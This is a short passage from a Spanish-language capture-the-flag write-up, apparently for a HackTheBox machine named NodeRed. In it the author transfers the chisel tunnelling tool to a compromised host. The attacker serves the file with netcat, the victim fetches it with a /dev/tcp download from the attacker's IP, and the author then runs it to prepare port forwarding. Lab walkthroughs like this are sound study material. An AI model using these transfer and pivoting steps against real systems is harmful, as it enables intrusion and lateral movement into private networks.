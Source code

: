 ```abap
└──╼ #./chisel 

  Usage: chisel [command] [--help]

  Version: 0.0.0-src (go1.15.9)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

### Cómo tenemos unos puertos remotos, podemos tratar de realizar un port forwarding con esos servicios y vamos a tratar de realizarlo con chisel, así que vamos a pasar este binario a la máquina victima para realizar este puente

```abap
┌─[root@parrot]─[/mnt/angussMoody/Scripts]
└──╼ #ls chisel 
chisel
┌─[root@parrot]─[/mnt/angussMoody/Scripts]
└──╼ #nc -nlvp 80 < chisel 
listening on [any] 80 ...
connect to [10.10.14.118] from (UNKNOWN) [10.129.224.218] 52006
┌─[root@parrot]─[/mnt/angussMoody/Scripts]
└──╼ #md5sum chisel 
58037ef897ec155a03ea193df4ec618a  chisel
```

```abap
root@nodered:/tmp# cat > chisel < /dev/tcp/10.10.14.118/80
^C
root@nodered:/tmp# md5sum chisel 
58037ef897ec155a03ea193df4ec618a  chisel
```

### Ahora le damos permisos de ejecución y vemos si nos está respondiendo el binario y vemos que este responde bien

```abap
root@nodered:/tmp# chmod +x chisel 
root@nodered:/tmp# ./chisel 

  Usage: chisel [command] [--help]

  Version: 1.7.6 (go1.16rc1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

